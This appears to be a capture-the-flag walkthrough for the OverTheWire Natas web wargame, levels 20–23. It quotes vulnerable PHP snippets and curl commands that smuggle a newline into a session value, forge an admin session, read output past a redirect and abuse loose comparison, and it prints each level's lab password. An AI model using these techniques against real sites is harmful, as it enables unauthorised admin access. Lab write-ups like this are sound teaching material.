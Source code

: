 # Natas

## level 20

This level we try to write ```admin 1``` to the session file and save the cookie in ```cookie.txt```.

```
$ curl -u natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF 'http://natas20.natas.labs.overthewire.org/?name=ving%0Aadmin%201&debug' -c cookie.txt
```

The session file will be writen as below.

```
name ving
admin 1
```

```
$ curl -u natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF http://natas20.natas.labs.overthewire.org/?debug -b cookie.txt
```

```
You are an admin. The credentials for the next level are:
Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ
```

## level 21

```php
<?php
// http://natas21-experimenter.natas.labs.overthewire.org/index-source.html
// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
?>
```

This give us chance to set ```admin``` value and save the cookie.

```
$ curl -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ http://natas21-experimenter.natas.labs.overthewire.org/?debug -d 'admin=1' -d 'submit=Update' -c cookie.txt
```

```
$ curl -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ http://natas21.natas.labs.overthewire.org/?debug -b 'PHPSESSID=g6vcjrla9bv83197qugg85juo3'
```

```
You are an admin. The credentials for the next level are:
Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
```

## level 22

```php
<?php
// http://natas22.natas.labs.overthewire.org/index-source.html
if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>
```

We can't see the password in browser because we are redirected to ```/```.
Fortunately, there is no ```exit``` after redirection and the password is sent to browser client in fact.

```
$ curl -u natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ http://natas22.natas.labs.overthewire.org/?revelio
```

```
You are an admin. The credentials for the next level are:
Username: natas23
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
```

## level 23

```php
<?php
// http://natas23.natas.labs.overthewire.org/index-source.html
if(array_key_exists("passwd",$_REQUEST)){
    if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
        echo "<br>The credentials for the next level are:<br>";
        echo "<pre>Username: natas24 Password: <censored></pre>";
    }
    else{
        echo "<br>Wrong!<br>";
    }
}
?>
```

The password must include ```iloveyou``` and be greater than ```10``` after converted to integer.

```
$ curl -u natas23:D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE http://natas23.natas.labs.overthewire.org/ -F 'passwd=11iloveyou'
```

```
The credentials for the next level are:
Username: natas24
Password: OsRmXFguozKpTZZ5X14zNO43379LZveg
```
